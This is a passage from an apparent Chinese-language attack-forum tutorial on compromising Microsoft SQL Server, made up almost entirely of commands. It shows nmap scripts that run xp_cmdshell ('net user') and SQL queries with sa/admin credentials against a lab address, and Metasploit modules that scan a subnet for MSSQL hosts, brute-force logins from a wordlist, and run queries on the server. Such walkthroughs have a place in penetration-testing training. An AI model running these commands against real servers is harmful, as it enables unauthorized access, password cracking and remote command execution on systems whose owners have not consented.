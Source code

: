 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-1473da5a5f81e65cf9fda32e0b1c11353aba98ca.png)

### 执行xp\_cmdshell（可能脚本原因导致执行未成功）

```php
nmap -p1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=admin,ms-sql-xp-cmdshell.cmd="net user" 192.168.3.130
```

### 执行mssql命令（可能脚本原因导致执行未成功）

```php
nmap -p1433 --script ms-sql-query --script-args mssql.username=sa,mssql.password=admin,ms-sql-query.query="sp_databases" 192.168.3.130
```

使用msf进行mssql攻击
==============

### 定位Mssql服务器

```php
msf6 > use auxiliary/scanner/mssql/mssql_ping 
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 192.168.3.0/24
msf6 auxiliary(scanner/mssql/mssql_ping) > set threads 255
msf6 auxiliary(scanner/mssql/mssql_ping) > exploit 
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-4c1b7b2dd6205dba877eddcb22f84862aaf702ba.png)

### 密码破解

```php
use auxiliary/scanner/mssql/mssql_login
set rhosts 192.168.3.130
set user_file users.txt
set pass_file users.txt
set verbose false
exploit
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-3eef4f57bd693e44d8404a96994b03d42b0cf41e.png)

### 获取mssql版本信息

```php
use auxiliary/admin/mssql/mssql_sql
set rhosts 192.168.3.130
set username sa
set password admin
exploit
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-b27b4b5ec3ff795ebb4311d7253f1586a8c2f29a.png)
